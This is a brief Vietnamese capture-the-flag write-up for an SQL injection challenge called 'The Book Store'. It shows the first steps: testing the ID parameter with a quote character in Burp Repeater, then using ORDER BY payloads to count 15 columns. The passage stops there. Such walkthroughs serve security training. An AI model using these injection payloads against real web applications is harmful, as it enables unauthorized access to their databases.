




# The Book Store

1.	Des:
-	Flag được giấu ở đường dẫn /flagxxx.txt 
-	Bài này là một bài SQLi 

2.	Solution:
-	Ta chọn một sản phẩm bất kì rồi vào burp chuyển request chứa sản phẩm vừa chọn đến Repeater

-	Ta thử nhập một kí tự đặc biệt như ‘ hoặc “ để xem có lỗi hay không
payload: GET /description.php?ID=NEW-2'&category=new HTTP/1.2

 ta đoán đây là một lỗ hổng sql!

-	Xác định các cột trong db bằng order by 
payload: ID=NEW-2' ORDER BY 16-- -  

payload: ID=NEW-2' ORDER BY 15-- -  
 Vậy có 15 cột 

